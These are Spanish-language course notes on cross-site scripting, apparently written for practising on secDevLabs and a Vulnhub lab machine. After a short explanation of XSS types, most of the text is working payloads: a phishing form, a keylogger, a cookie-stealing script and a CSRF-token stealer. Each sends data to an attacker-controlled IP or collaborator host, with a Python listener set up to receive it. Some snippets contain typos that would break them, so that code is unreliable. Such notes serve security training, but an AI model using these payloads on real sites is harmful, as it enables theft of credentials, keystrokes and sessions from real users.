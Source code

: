 # Cross-Site Scripting

Tags: #XSS #OWASP #Explotacion 

Una vulnerabilidad **XSS** (**Cross-Site Scripting**) es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocimiento o consentimiento. Esta vulnerabilidad permite al atacante robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

En esencia, un ataque XSS implica la inserción de código malicioso en una página web vulnerable, que luego se ejecuta en el navegador del usuario que accede a dicha página. El código malicioso puede ser cualquier cosa, desde scripts que redirigen al usuario a otra página, hasta secuencias de comandos que registran pulsaciones de teclas o datos de formularios y los envían a un servidor remoto.

Existen varios tipos de vulnerabilidades XSS, incluyendo las siguientes:

-   **Reflejado** (**Reflected**): Este tipo de XSS se produce cuando los datos proporcionados por el usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario.
-   **Almacenado** (**Stored**): Este tipo de XSS se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada vez que se carga la página.
-   **DOM-Based**: Este tipo de XSS se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Modelo de Objetos del Documento). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

Los ataques XSS pueden tener graves consecuencias para las empresas y los usuarios individuales. Por esta razón, es esencial que los desarrolladores web implementen medidas de seguridad adecuadas para prevenir vulnerabilidades XSS. Estas medidas pueden incluir la validación de datos de entrada, la eliminación de código HTML peligroso, y la limitación de los permisos de JavaScript en el navegador del usuario.

A continuación, se proporciona el proyecto de GitHub correspondiente al laboratorio que nos estaremos montando para poner en práctica la vulnerabilidad XSS:

-   **secDevLabs**: [https://github.com/globocom/secDevLabs](https://github.com/globocom/secDevLabs)
* [Ejercicios-XSS](https://sudo.co.il/xss/)
## HTML

```javascript
<h1>Hola</h1>                                                              /// Podemos hacer inyecciones con codigo HTML
<marquee>Hola</marquee>                                                    /// Podemos usar marquee para que el texto nos salga animado, de izquierda a derecha 

<a href="https://www.ionos.mx/digitalguide/URL">Texto ancla</a>            /// Para colocar un enlace 

<img src="images/imagen.png">                                              /// Para agregar una imagen
<img src="https://test.com/images/imagen.png">

<img src="X" onerror=alert(1) />                                                     /// Para colocar un alert basado en un error 

<iframe src="http://ejemplo.org/demo.html" height="400" width="800" name="demo">     /// Para agregar una pagina dentro de otra pagina con dimenciones 
  <p>Su navegador no es compatible con iframes</p>
</iframe>
```

## JavaScript en la web

Los XSS pueden interpretar código en **HTML y/o  JavaScript** y es ahí en donde podemos colocar las inyecciones.

```javascript
<script>alert("XSS")</script>                                /// Creamos una ventana emergente con codigo javascript que dice XSS

<script>                                                     /// Para mandar algo por el metodo POST a un dominio 
  fetch('https://kwklry4t8e18m8q8k5uikgydy44vslga.oastify.com',{method:'POST', mode:'no-cors', body:'omar'});
</script>


```

----
Podemos crear un script en donde nos devuelva el correo o algún dato a nuestra IP con un servidor hecho con http,  colocamos la IP de nuestro servidor en fetch.
```javascript
<script>
    var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");

    if (email == null || email == ""){
        alert("Es necesario introducir un correo para ver el post");
    } else{
        fetch("http://192.168.68.108/?email=" + email );  
    }
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
También lo podemos hacer con HTML (Phishing)
```html
<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contrasena: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
		'</form>';
		
	document.getElementByld(formContainer”).innerHTML = form;
	
	function submitForm() {
		email = document.getElementByld("email").value;
		password = document.getElementByld("password").value;
		fetch("http://192.168.68.108/?email=" + email + "&password="+ password);
	}
</script>
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
Podemos crear un Keylogger JavaScript
```javascript
<script>
   var k = "";    document.onkeypress = funtion(e){
        e = e || window.event;                        // Opcional para que en cualquier navegador funcione el Keylogger
        k += e.key;
        var i = new Image();
        i.src = "http://192.168.68.111/" + k;
    };
</script>
```

```bash
❯ python3 -m http.server 80  | grep -oP "GET /\k[^.*\s]+"      # Nos montamos un servidor http 80 para recibir las peticiones y que las filtre 
```

----
Podemos crear un Script para redirigir al usuario
```javascript
<script>
	window.location.href = "https://hack4u.io";
</script>
```



## JavaScript 

Web para identificar un [Json Web Token](https://jwt.io/), este se encuentra en: **Ctrl + Shift + c > Application/Storage > Session**

External JavaScript Source, podemos cargar código desde un servidor externo para tratar de robarle la cookie de sesión.
* Debemos de ver en la web que no tenga activa el **httpOnly** y se encuentra en **Application** ya que eso impediria poder robarla.
* Esto seria un **Cookie Hijacking**

Esto lo colcaremos en la web de prueba y crearemos la publicacion
```javascript
<script src="http://192.168.68.111/test.js"></script>
```
* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script> y lo podemos pegar directamente en la web de prueba
```bash
❯ nvim test.js                                                  # Creamos el archivo js
```

Con este robamos la Cookie de Sesion del usuario.
```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.68.111/?cookie=' + document.cookie);
request.send();         
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```
Después de tener la **Cookie de Session** podemos pegarla en donde se encuentra la nuestra 'sustituyendola' en la web y así cuando recarguemos la pagina, estaremos como el otro usuario.

----

Esto lo colocaremos en la web de prueba y crearemos la publicación
```javascript
<script src="http://192.168.68.111/pwned.js"></script>
```

* Cuando creas el archivo .js ya no es necesario poner las cabeceras <script></script>
```bash
❯ nvim pwned.js                                                  # Creamos el archivo js
```

Esto se usa una vez obtenido la **csrf_token y value**
```javascript
var domain = "http://localhost:10007/newgossip";
var req1 = new XMLHttpRequest();
req1.open('GET', domain, false);
req1.withcredentials = true;                               // Por si el Token es Dinamico y asi lo volvemos Estatico
req1.send();

var response = req1.responseText;
var parser = new DOMParser();
var doc = parser.parserFromString(respose, 'text/html');
var token = doc.getElementsByName("_csrf_token")[0].value;

var req2 = new XMLHttpRequest();
var data = "title=HACKED&subtitle=HaCkEd&text=HAC%20ked&_csrf_token=" + token;   // El %20 es un espacio en urlencode
req2.open('POST', 'http://localhost:10007/newgossip', false); 
req2.withcredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
req2.send(data);
```

```bash
❯ python3 -m http.server 80                                     # Nos montamos un servidor http 80 para recibir las peticiones 
```

----
En esta clase, trataremos de resolver una máquina de la plataforma de **Vulnhub** para practicar los ataques XSS.

Vulnhub es una plataforma de seguridad informática que se centra en la creación y distribución de máquinas virtuales vulnerables con el fin de mejorar las habilidades de los profesionales de la seguridad informática. La plataforma proporciona una amplia variedad de máquinas virtuales (VM) que se han configurado para contener vulnerabilidades deliberadas que pueden ser explotadas para aprender y reforzar técnicas de hacking.

A continuación, se proporciona el enlace a la máquina que nos descargamos en esta clase para practicar esta vulnerabilidad:

-   **Máquina MyExpense**: [https://www.vulnhub.com/entry/myexpense-1,405/](https://www.vulnhub.com/entry/myexpense-1,405/)


